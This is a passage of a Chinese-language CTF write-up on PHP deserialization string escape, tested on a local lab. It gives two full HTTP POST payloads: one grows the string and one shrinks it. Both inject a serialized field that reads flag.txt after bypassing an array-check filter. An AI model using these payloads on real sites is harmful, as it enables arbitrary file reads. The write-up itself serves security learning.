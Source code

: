 }
else{
    highlight_file(__FILE__);
}
?>

```

这个题是反序列化字符串逃逸

本地做了一个环境，是在WEB目录中放了个flag.txt文件，里面放了一些象征性的flag代码

#### 方法一：字符串变多方法逃逸

发送payloadHTTP包大致如下

```
POST /problem.php?cata=o2bject HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

name=123&phone[]=hellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohello";}s:5:"email";s:8:"flag.txt";}&email=789
```

![](images/mdmd2021-09-12-16-41-33.png)

如上，phone通过空数组传参形式绕过in_array校验，然后反序列化字符串绕过对$_POST['phone']的`flag`的匹配，就可以进行任意文件读取，差不多就是这种类似的思路。

#### 方法二：字符串变少方法逃逸

```
POST /problem.php?cata=ob2ject HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 298

name=OTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQ&phone[]=1";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:8:"flag.txt";} &email=789
```

![](images/mdmd2021-09-12-20-53-49.png)

#### 总结

###### 序列化字符串对象

对数组的序列化

```
$usr = array('username','password');